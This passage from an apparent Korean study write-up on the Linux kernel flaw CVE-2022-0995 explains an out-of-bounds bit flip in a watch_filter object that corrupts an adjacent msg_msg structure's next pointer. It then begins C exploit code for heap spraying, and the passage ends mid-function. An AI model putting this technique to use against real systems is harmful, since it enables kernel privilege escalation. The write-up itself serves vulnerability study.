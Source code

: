 
할당된 `watch_filter` 객체에서 OOB를 하여 인접한 `kmalloc-96` 으로 할당된 `msg_msg` 구조체의 `next` 필드를 변형한다. 

취약점은 저번에 설명한 대로 2개가 있으나, 나는 그 중 2번째, 임의 지점의 비트를 바꿀 수 있는 취약점을 활용할 것이다. 

오버플로우를 하여 원하는 값을 쓰기에는 내가 아는 값이 없고, msg_msg chunk 의 next 의 비트를 바꿔 인접한 다른 객체를 가리키게 하는 방법이 더 수월할 것이기 때문이다. 

`watch_filter` 의 `type` 를 0x30a 로 쓰게 되면 정확히 96바이트 뒤의 8바이트 구간의 0x1000 비트를 바꿀 수 있게 된다. 

![](/assets/img/study/cve_2022_0995_part2/oob.png)

해당 지점까지의 과정을 코드로 작성하면 다음과 같다. 

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <sched.h>
#include <linux/watch_queue.h>

#define MSG_MSG_SPRAY_COUNT 1000
#define HOLE_MSG_INDEX 750

#define MSG_TYPE_96  0xaa
#define MSG_TYPE_1024 0xbb

#define SPRAY_SIZE_KMALLOC_96 96 - 0x30
#define SPRAY_SIZE_KMALLOC_1024 1024 - 0x30

int spray_queue[MSG_MSG_SPRAY_COUNT];

struct msg_buf {
    uint64_t mtype;
    char mtext[1];
};

int msg_msg_spray(int spray_count)
{
    int i;
    struct msg_buf* message = (struct msg_buf*)malloc(0x1000);

```